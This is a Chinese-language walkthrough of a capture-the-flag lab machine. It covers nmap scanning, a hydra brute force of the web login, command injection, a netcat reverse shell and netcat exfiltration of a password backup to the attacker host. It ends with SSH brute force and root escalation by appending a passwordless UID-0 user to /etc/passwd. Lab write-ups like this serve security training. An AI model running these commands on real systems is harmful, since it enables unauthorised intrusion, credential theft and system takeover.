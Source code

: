 # 端口发现
nmap -sP 192.168.31.0/24
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668301152042-de39186f-f1d8-45d9-ba27-6123c5179b0f.png#averageHue=%23272c39&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=364&id=ue2c35a3c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=364&originWidth=1043&originalType=binary&ratio=1&rotation=0&showTitle=false&size=114822&status=done&style=none&taskId=u9063c31a-5184-4c0e-8f0c-14c01e7d407&title=&width=1043)
nmap -p- -A 192.168.31.145
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668301141369-48a504e3-e2f2-4cc9-a69c-bdf93e9206ab.png#averageHue=%23272c38&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=415&id=u94223bda&margin=%5Bobject%20Object%5D&name=image.png&originHeight=415&originWidth=1127&originalType=binary&ratio=1&rotation=0&showTitle=false&size=132801&status=done&style=none&taskId=uaaf28c8c-6111-4f26-b43d-40fd98aabb7&title=&width=1127)
# web 突破
访问 80 端口，是个登录框，写着管理员信息系统登录
再无其他信息，只能爆破
hydra -L 1.txt -P 1.txt 192.168.31.145 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668301721038-d8d022a8-e0b3-433f-82ff-6289137aff15.png#averageHue=%2329313e&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=241&id=u56fc0bc0&margin=%5Bobject%20Object%5D&name=image.png&originHeight=241&originWidth=1219&originalType=binary&ratio=1&rotation=0&showTitle=false&size=100288&status=done&style=none&taskId=u6bc1affb-aad8-441d-a69f-8f8a857ba4d&title=&width=1219)
爆破得出  admin :  happy
登录管理员，登进去好像可以使用命令
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668301799734-c1fd7908-4309-48d8-8752-44c9f6eb7984.png#averageHue=%23d2d2ca&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=352&id=uc6d149e6&margin=%5Bobject%20Object%5D&name=image.png&originHeight=352&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=133784&status=done&style=none&taskId=uaa0c1de3-5aed-4411-8a63-4633845571f&title=&width=1919)
但是好像只能执行固定的命令，抓包改包
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668301909736-64c5d0f2-fbde-4960-85f5-a13933b8e5ed.png#averageHue=%23f6f5f5&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=342&id=u60b33c36&margin=%5Bobject%20Object%5D&name=image.png&originHeight=342&originWidth=1281&originalType=binary&ratio=1&rotation=0&showTitle=false&size=60017&status=done&style=none&taskId=u356db189-8944-45bd-af1b-4093158309a&title=&width=1281)
改成 cat login.php
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668301967642-26c146d1-85b3-4f48-9516-5e5082afcd84.png#averageHue=%23faf9f9&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=694&id=ubb55a37a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=694&originWidth=1279&originalType=binary&ratio=1&rotation=0&showTitle=false&size=75165&status=done&style=none&taskId=ud129c865-5e16-4c11-b458-f8dd70a7d8c&title=&width=1279)
能看，确定有 RCE
kali 监听端口，准备反弹 shell
nc 192.168.31.128 4444 -e /bin/bash
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668302049406-9aa29631-4942-40b4-9b2d-aaa003e14f8a.png#averageHue=%23f7f5f5&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=95&id=u7bbfa358&margin=%5Bobject%20Object%5D&name=image.png&originHeight=95&originWidth=490&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8352&status=done&style=none&taskId=u3ffca6cf-c58c-4d3d-b710-1a57cf619da&title=&width=490)
成功连上反弹 shell
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668302112841-9159e9e4-e765-4a91-9fe9-2ca0391ab1ce.png#averageHue=%23262d39&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=175&id=u08f74c9d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=175&originWidth=1071&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37093&status=done&style=none&taskId=u044c3df4-35ea-4411-82bc-ff5db20b7c6&title=&width=1071)
python 优化 shell
python -c 'import pty;pty.spawn("/bin/bash")'
进入 home 目录，发现有三个用户，在 jim 的目录下发现 /home/jim/backups 下面有个 old-passwords.bak
用给的旧密码本去爆破 jim 的密码
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668302217645-16248d88-c0ac-4bd2-93e1-ac1898c570f9.png#averageHue=%23252b36&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=400&id=u77b529b3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=400&originWidth=1237&originalType=binary&ratio=1&rotation=0&showTitle=false&size=88326&status=done&style=none&taskId=ue212fb50-0299-4165-abc9-6a561c884a8&title=&width=1237)
使用 nc 将old-passwords.bak 传到 kali
kali：nc -lvvp 5555 > ./2.txt
靶机：nc 192.168.31.128 5555 < /home/jim/backups/old-passwords.bak
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668302621516-76376867-b675-4d8d-a585-6a625f089635.png#averageHue=%23283648&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=393&id=ue8d491e1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=393&originWidth=1104&originalType=binary&ratio=1&rotation=0&showTitle=false&size=95114&status=done&style=none&taskId=uebd9511c-ae39-4c08-a930-3d2cddc56db&title=&width=1104)
已经传过来了
开始用 jim 和密码本对 ssh 进行爆破
hydra -l jim -P ./2.txt -f 192.168.31.145 ssh -t 4
_-l 指定用户名   -f 匹配到正确的就停止   -t 4  ssh 爆破被限速，推荐 t 4_
爆破完是 jim:jibril04
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668303153445-5c441a74-9f47-42e0-99d4-776e2a8e878e.png#averageHue=%23272f3c&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=399&id=uf59afcae&margin=%5Bobject%20Object%5D&name=image.png&originHeight=399&originWidth=1141&originalType=binary&ratio=1&rotation=0&showTitle=false&size=123564&status=done&style=none&taskId=u4791e94b-bd9d-4e91-b210-5b9c32cce5b&title=&width=1141)
find / -name jim，找到 /var/mail/jim
cat /var/mail/jim
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668303326073-b507a114-144c-483d-b97a-fc7cbd342d95.png#averageHue=%23273140&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=455&id=ucc1c39b7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=455&originWidth=1362&originalType=binary&ratio=1&rotation=0&showTitle=false&size=125847&status=done&style=none&taskId=u5e1963f7-0b8d-4b9a-9e37-75aec47b546&title=&width=1362)
尝试之后发现是 charles 的密码
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668303407833-80d96cd4-7f33-479f-895e-8c4b36f318a1.png#averageHue=%23242e3b&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=177&id=udf06ab05&margin=%5Bobject%20Object%5D&name=image.png&originHeight=177&originWidth=743&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24050&status=done&style=none&taskId=ua4d6594d-b09b-48e3-b783-27eeba7453b&title=&width=743)
查看权限  sudo -l
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668303432642-ff38f541-a0e0-4f2e-9c24-c23598570a29.png#averageHue=%23273341&clientId=u71a6ca6f-056d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=144&id=u79b7d536&margin=%5Bobject%20Object%5D&name=image.png&originHeight=144&originWidth=1017&originalType=binary&ratio=1&rotation=0&showTitle=false&size=32910&status=done&style=none&taskId=u4914b781-f725-4ac8-98e4-963b89e3dc9&title=&width=1017)
发现可以免密使用 /usr/bin/teehee
# 提权
利用 teehee 命令对 /etc/passwd 中写入一个 admin 用户，
echo "admin::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
_/etc/passwd 的格式如下_

- _ 用户名：密码：UID (用户ID) : GID (组ID) : 描述性信息：主目录：默认Shell _

写入的 admin 用户无密码，UID 和 GID 都是 0 ，相当于 root
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668303804082-9cbd381f-d07c-4a50-8912-9e2b954b2518.png#averageHue=%23273949&clientId=u8d6b6df6-1654-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=95&id=u14cded5b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=95&originWidth=816&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22489&status=done&style=none&taskId=uab0fd6ea-28b2-4706-bd33-5171b02327b&title=&width=816)
提权成功
拿 flag
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668303851644-ad1fedd2-37a3-4bf5-b5da-675244d7d615.png#averageHue=%23262d39&clientId=u8d6b6df6-1654-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=484&id=u03403283&margin=%5Bobject%20Object%5D&name=image.png&originHeight=484&originWidth=1201&originalType=binary&ratio=1&rotation=0&showTitle=false&size=89272&status=done&style=none&taskId=ua43b792a-c7f2-4370-a870-59c5f2d42da&title=&width=1201)

